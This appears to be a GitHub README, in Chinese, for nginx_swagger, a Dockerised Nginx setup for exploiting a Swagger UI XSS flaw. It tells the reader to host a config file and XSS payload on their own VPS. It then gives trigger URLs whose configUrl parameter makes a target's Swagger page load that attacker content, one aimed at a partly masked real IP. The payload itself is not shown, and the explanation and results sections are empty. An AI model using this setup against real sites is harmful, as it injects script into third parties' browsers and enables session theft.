


# nginx_swagger
这个项目主要用于构建一个Nginx服务端，辅助测试Swagger的XSS漏洞。

## 使用方法

**1、修改test.json中VPS IP为你的VPS地址**

**2、修改test.yaml中的XSS Payload**

**3、启动Nginx**

默认8443端口
docker-compose up -d

**4、触发漏洞**
http://目标/swagger-ui/index.html?configUrl=https://VPS_IP/test.json

# 漏洞原理

# 漏洞触发

http://1.116.xxx.112:8089/swagger-ui/index.html?configUrl=https://VPS_IP:8443/test.json

注意：目标是HTTPS的网站，你的VPS 可能需要配置HTTPS，我这里没有测试了。 

# 漏洞效果

